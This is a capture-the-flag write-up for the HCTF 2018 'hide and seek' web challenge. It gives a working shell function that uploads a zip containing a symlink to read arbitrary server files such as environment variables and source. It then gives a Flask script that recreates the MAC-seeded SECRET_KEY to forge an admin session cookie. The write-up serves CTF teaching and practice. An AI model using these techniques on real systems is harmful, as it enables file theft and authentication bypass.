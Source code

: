 # hide and seek

## 描述 
only admin can get it 

update1/更新1: 1. fix bugs 2. attention: you may need to restart all your work as something has changed hint: 1. docker 2. only few things running on it 
update2/更新2: Sorry，there are still some bugs, so down temporarily. 
update1/更新3: fixed bug

## URL 

http://hideandseek.2018.hctf.io

这个题槽点满满

半夜修 bug、、错失一血


## Writeups

I will tell you a secret, but you should upload a zipfile first.

上传包含软连接的 zip 文件达到任意读

	function lfr(){
		rm -f _v
		ln -s $1 _v
		zip -0 -y -q -r -o b3.zip cmdline _v zip
		curl -s "http://hideandseek.2018.hctf.io/upload" \
		-H "Connection: close" \
		-F the_file=@b3.zip \
		--output -
		rm b3.zip
	}
	lfr /path/to/file
	lfr /proc/self/environ
	lfr /app/it_is_hard_t0_guess_the_path_but_y0u_find_it_5f9s5b5s9.ini
	lfr /app/hard_t0_guess_n9f5a95b5ku9fg/hard_t0_guess_also_df45v48ytj9_main.py
	lfr /sys/class/net/eth0/address
	mac2long 12:34:3e:14:7c:62
	# 20015589129314
	# SECRET_KEY=11.935137566861131
	# Cookie: session=eyJ1c2VybmFtZSI6ImFkbWluIn0.W-eIfw.0rOhpwBRE__J5-T9HZnPh2yS3ys
	curl -s http://hideandseek.2018.hctf.io/ \
	-H "Cookie: session=eyJ1c2VybmFtZSI6ImFkbWluIn0.W-eIfw.0rOhpwBRE__J5-T9HZnPh2yS3ys" \
	--output - | grep hctf

**session.py**

	from flask import Flask, session
	import uuid
	import random
	import os
	random.seed(20015589129314)
	app = Flask(__name__)
	app.config['SECRET_KEY'] = str(random.random()*100)
	@app.route('/fuck', methods=['GET'])
	def fuck():
	    session['username'] = 'admin'
	    return app.config['SECRET_KEY']

## 吐槽

	一直读不到py 也读不了 pyc，还以为不是这个点、、半夜修 bug、、我都睡了